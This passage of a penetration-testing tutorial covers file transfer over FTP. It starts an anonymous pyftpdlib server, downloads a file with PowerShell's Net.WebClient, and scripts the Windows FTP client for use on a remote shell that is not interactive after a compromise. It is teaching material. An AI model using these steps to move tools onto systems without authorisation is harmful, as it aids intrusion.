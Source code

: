 Then we can specify port number 21 because, by default, `pyftpdlib` uses port 2121. Anonymous authentication is enabled by default if we don't set a user and password.

```
sudo python3 -m pyftpdlib --port 21
```

> Transfering Files from an FTP Server Using PowerShell

After the FTP server is set up, we can perform file transfers using the pre-installed FTP client from Windows or PowerShell `Net.WebClient`.

```powershell-session
(New-Object Net.WebClient).DownloadFile('ftp://<IP>/<file>', '<newNameFile>')
```

When we get a shell on a remote machine, we may not have an interactive shell. If that's the case, we can create an FTP command file to download a file. First, we need to create a file containing the commands we want to execute and then use the FTP client to use that file to download that file.

> Create a Command File for the FTP Client and Download the Target File

Example:

```
echo open <IP> > ftpcommand.txt
```

```
echo USER <user> >> ftpcommand.txt
```

```
echo binary >> ftpcommand.txt
```

```
echo GET <file.txt> >> ftpcommand.txt
```

```
echo bye >> ftpcommand.txt
```

```
ftp -v -n -s:ftpcommand.txt
```

```
open <IP>
```

```
USER <user>
```

```
GET <file.txt>
```

```
bye
```
